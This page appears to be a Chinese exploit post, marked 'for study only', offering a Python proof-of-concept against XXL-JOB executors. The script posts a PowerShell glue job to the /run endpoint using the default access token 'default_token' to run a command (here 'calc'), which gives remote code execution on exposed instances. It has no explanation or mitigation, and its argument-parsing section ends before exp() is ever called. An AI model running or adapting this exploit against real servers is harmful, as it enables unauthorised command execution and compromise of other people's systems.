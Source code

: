 [![](assets/1699257038-66a650fc3fbd127f685026e301335ed0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103173454-3eae6fc6-7a2c-1.png)

# EXP 仅供学习使用！！！！！！！！！！

```bash
import requests
import argparse
def exp(url):
    headers = {'X-Requested-With': 'XMLHttpRequest',
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36',
'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
'Accept-Encoding': 'gzip, deflate',
               "Xxl-Job-Access-Token":"default_token"}
    data = '''{
  "jobId": 123,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 1,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_POWERSHELL",
  "glueSource": "calc",
  "glueUpdatetime":'1586699003758',
  "broadcastIndex": 0,
  "broadcastTotal": 0
}'''

    response = requests.post(url=url+"/run",headers=headers,data=data)
    if response.status_code == 200:
        print("200成功")
    else:
        print("失败\t 尝试代理")

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument('ip', nargs='*')
```